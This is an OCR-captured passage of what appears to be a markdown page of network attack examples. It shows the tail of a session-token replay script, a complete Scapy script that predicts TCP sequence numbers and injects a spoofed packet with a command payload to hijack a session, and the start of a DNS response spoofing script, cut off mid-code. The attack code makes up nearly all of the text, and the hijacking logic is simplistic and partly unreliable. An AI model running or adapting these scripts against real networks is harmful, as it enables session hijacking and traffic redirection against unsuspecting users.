 ```python
    else:
        log.failure("No session token found")

extract_and_replay_token()
```

### 3. TCP Sequence Prediction and Session Hijacking

```python
from scapy.all import *

def predict_and_hijack_tcp():
    # Analyze TCP sequence numbers from a stream
    packets = rdpcap('tcp_stream.pcap')
    syn_packets = [p for p in packets if TCP in p and p[TCP].flags & 2]  # SYN flag is set
    
    # Calculate sequence number pattern
    seq_numbers = [p[TCP].seq for p in syn_packets]
    diffs = [seq_numbers[i+1] - seq_numbers[i] for i in range(len(seq_numbers)-1)]
    
    if len(set(diffs)) == 1:
        print(f"Predictable sequence! Increment: {diffs[0]}")
        next_seq = seq_numbers[-1] + diffs[0]
        
        # Craft a packet with the predicted sequence number
        target_ip = packets[0][IP].dst
        target_port = packets[0][TCP].dport
        spoofed_packet = IP(dst=target_ip)/TCP(dport=target_port, seq=next_seq, flags="A")
        
        # Add payload for command execution
        spoofed_packet = spoofed_packet/Raw(load=b"echo 'Hijacked!'")
        
        # Send the packet
        send(spoofed_packet)
        print(f"Sent hijacked packet with sequence {next_seq}")
    else:
        print("Sequence numbers not easily predictable")

predict_and_hijack_tcp()
```

### 4. DNS Response Spoofing

```python
from scapy.all import *

def dns_spoofing():
    # Function to handle DNS requests and send spoofed responses
    def dns_spoof(pkt):
        if (DNS in pkt and pkt[DNS].qr == 0 and 
            pkt[DNS].qd.qname == b'target-site.com.'):
            
            # Craft a spoofed DNS response
            spoofed = IP(dst=pkt[IP].src)/\
                      UDP(dport=pkt[UDP].sport, sport=53)/\
                      DNS(
                          id=pkt[DNS].id,
                          qr=1,  # Response
                          aa=1,  # Authoritative
                          qd=pkt[DNS].qd,  # Question Record
                          an=DNSRR(
                              rrname=pkt[DNS].qd.qname,
                              ttl=3600,
                              type='A',
```